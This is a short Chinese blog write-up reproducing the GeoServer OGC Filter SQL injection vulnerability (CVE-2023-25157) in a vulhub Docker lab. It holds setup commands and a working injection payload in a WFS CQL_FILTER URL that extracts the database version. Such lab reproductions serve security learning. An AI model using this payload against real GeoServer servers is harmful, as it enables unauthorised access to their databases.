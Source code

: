 # 原创
：  GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）vulhub漏洞复现

# GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）vulhub漏洞复现

### GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）

GeoServer是一款JAVA编写的、开源的、用于共享地理空间数据的软件服务器。GeoServer实现了 开放地理空间信息联盟(OGC )标准下WFS、WMS、WCS、WMTS等格式的发布。<br/> GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

### vulhub漏洞复现

```
cd vulhub-master/
cd geoserver/
cd CVE-2023-25157
docker-compose build
docker-compose up -d
docker-compose ps

```

访问<br/> `http://192.168.126.128:8080/geoserver/web/?0`即可查看到GeoServer的首页。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/aa015b64ff834b47bbf756345bd1a355.png"/>

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：<br/> Workspace name: vulhub<br/> Data store name: pg<br/> Feature type (table) name: example<br/> One of attribute from feature type: name<br/> 构造payload

```
http://192.168.126.128:8080/geoserver/ows?service=WFS&amp;version=1.0.0&amp;request=GetFeature&amp;typeName=vulhub:example&amp;CQL_FILTER=strStartsWith(name,'x'') = true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true

```

成功注入获取版本信息。
